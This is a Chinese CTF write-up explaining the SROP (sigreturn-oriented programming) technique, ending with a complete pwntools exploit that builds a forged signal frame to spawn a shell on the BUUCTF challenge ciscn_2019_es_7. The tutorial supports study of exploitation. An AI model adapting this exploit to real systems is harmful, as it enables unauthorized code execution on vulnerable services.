# pwn初学者的进阶（四）：SROP


SROP，听着似乎是一个非常高大上的ROP方式，再加上涉及到signal和内核等概念，很容易给人一种难以理解的第一印象。但看过[ctf-wiki](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/srop/)之后你会发现，原理非常简单易懂。

<!--more-->

## 基本原理

SROP与Unix系统的信号（signal）处理机制相关。关于Unix系统的信号处理、中断、用户态内核态等概念，忘了的话建议先去google一下。理解这些东西才能够更好地理解SROP的工作原理。

首先盗一张ctf-wiki上关于信号处理过程的流程图。

![img](ProcessOfSignalHandlering.png "Procedure of signal handling")

几个阶段分别发生了什么：

- ①：用户态进程接收到别的进程发送的信号signal，该进程被挂起，进入内核态
- ②：内核保存用户态进程的上下文，然后跳转到用户态的信号对应的信号处理程序，回到用户态。在这一阶段里，内核会构造一个位于用户态进程栈上的`Signal Frame`用于存放该进程的上下文，然后再压入返回地址`rt_sigreturn`。
- ③：用户态的信号处理程序执行完毕，pop返回地址`rt_sigreturn`，进程进入内核态，执行`sigreturn`系统调用。内核根据之前栈上的`Signal Frame`完成用户态进程上下文的恢复。
- ④：返回用户态，进程按照恢复的上下文继续执行。

SROP作用于第3阶段，也就是内核根据`Signal Frame`的内容恢复进程上下文的过程。

`Signal Frame`是一个已知的数据结构，而且其存在于用户态的栈上。内核在恢复上下文时并没有确保其内容没有被修改过。因此，如果我们能够在栈上构造`sigreturn`系统调用与`Signal Frame`结构体的话，就能够实现攻击的效果。

比如在栈上构造这么一个结构，就能够SROP获取shell。

![](srop-example-1.png "example")

## 例题

Buu上的[ciscn_2019_es_7](https://buuoj.cn/challenges#ciscn_2019_es_7)就是一个典型的例子。

程序允许`0x400-0x10`长度的栈溢出，并且提供了`mov rax 0x3b; ret`和`syscall`以及`pop rdi`/`pop rsi`的gadget，但是就是没有控制rdx的gadget。所以无法直接栈溢出ret2syscall。

再考虑到这么长的溢出长度，以及`mov rax 0x0f; ret`的gadget（0xf号系统调用就是sigreturn），所以应该想到SROP。

![image-20211101200337067](image-20211101200337067.png "gadgets")

根据上面的例子，如果想要SROP执行`execve("/bin/sh", 0, 0)`的话，还需要知道字符串`"/bin/sh"`的地址。在这道题中，可以利用`sys_write`输出的栈地址来获取。

最终exp：

```python
from pwn import *

context(log_level = 'debug')
context(os="linux", arch="amd64")
if args.LOCAL:
    p = process('./ciscn_2019_es_7')
else:
    p = remote('node4.buuoj.cn', 26270)

syscall_ret = 0x400517
mov_rax_0x3b_ret = 0x4004e2 # execve
mov_rax_0x0f_ret = 0x4004da # sigreturn
main_addr = 0x40051d
call_vuln = 0x400531
vuln_addr = 0x4004f1

# first time
pld1 = b'/bin/sh\x00'
pld1 = pld1.ljust(0x10, b'a')
pld1 += p64(vuln_addr)
p.send(pld1)

stack_addr = u64(p.recvuntil(b'\x7f')[-6:]+b'\x00'*2)
p.success("stack_addr: {}".format(hex(stack_addr)))

# second time
pld2 = b'/bin/sh\x00'
pld2 = pld2.ljust(0x10, b'a')
pld2 += p64(mov_rax_0x0f_ret)
pld2 += p64(syscall_ret)

sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr - 0x118
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
# print(sigframe)

pld2 += bytes(sigframe)
p.send(pld2)
p.interactive()
```

## 思考

如果`Signal Frame`完全可控的话，既然可以通过控制`rax`和`rip`来执行系统调用，那么如果程序中存在什么后门函数的话，是不是可以通过构造`rdi`/`rsi`和`rip`等寄存器，去执行这些函数呢？还是说内核态会限制一些函数的运行？

## 参考链接：

- [https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/srop/](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/srop/)
- [https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)
- [提出SROP的论文：《Framing Signals—A Return to Portable Shellcode》](https://www.cs.vu.nl/~herbertb/papers/srop_sp14.pdf)


